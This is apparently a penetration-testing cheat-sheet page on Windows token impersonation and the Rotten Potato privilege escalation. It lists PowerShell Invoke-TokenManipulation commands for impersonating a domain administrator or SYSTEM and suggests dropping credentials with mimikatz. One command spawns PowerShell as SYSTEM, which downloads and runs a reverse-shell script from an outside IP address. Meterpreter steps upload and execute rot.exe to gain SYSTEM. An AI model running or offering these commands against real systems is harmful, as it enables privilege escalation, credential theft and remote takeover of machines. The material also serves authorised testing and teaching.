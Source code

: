 ## Token Impersonation

Token impersonation is a technique you can use as local admin to impersonate another user logged on to a system. This is very useful in scenarios where you are local admin on a machine and want to impersonate another logged on user, e.g a domain administrator.

##### Powershell
We can do token impersonation directly in powershell with a completely legitimate module. This will spawn a new thread as the user you impersonation, but it can be made to work in the same thread. Therefore, if you impersonate and then type whoami it might still show the original username, but you still have privs as your target user. If you do however spawn a new process (or a new shell) and migrate to that you will have a shell as the account you are impersonating.

Invokes token impersonation on a domain user. If this doesn't work you can try impersonating SYSTEM and then dropping credentials using mimikatz.

`Invoke-TokenManipulation -ImpersonateUser -Username "lab\domainadminuser"`

`Invoke-TokenManipulation -ImpersonateUser -Username "NT AUTHORITY\SYSTEM"`

`Get-Process wininit | Invoke-TokenManipulation -CreateProcess "cmd.exe"`

As a replacement for the last command you could do, but be vary of special characters in the command like `"` and `'`
`Get-Process wininit | Invoke-TokenManipulation -CreateProcess "Powershell.exe -nop -exec bypass -c \"IEX (New-Object Net.WebClient).DownloadString('http://10.7.253.6:82/Invoke-PowerShellTcp.ps1');\"};"`

https://github.com/clymb3r/PowerShell/tree/master/Invoke-TokenManipulation

### Rotten potato exploit
The rotten potato exploit is a privilege escalation technique that allows escalation from service level accounts to SYSTEM through token impersonation. This can be achieved through uploading an exe file exploit and executing or through memory injection with psinject in either Empire or Metasploit. See [Foxglove security's writeup](https://foxglovesecurity.com/2016/09/26/rotten-potato-privilege-escalation-from-service-accounts-to-system/) of the exploit for more detail.

##### Meterpreter
Get a meterpreter shell as a service account and upload rot.exe to the box.
```
getuid
getprivs
use incognito
list\_tokens -u
cd c:\temp\
execute -Hc -f ./rot.exe
impersonate\_token "NT AUTHORITY\SYSTEM"
```
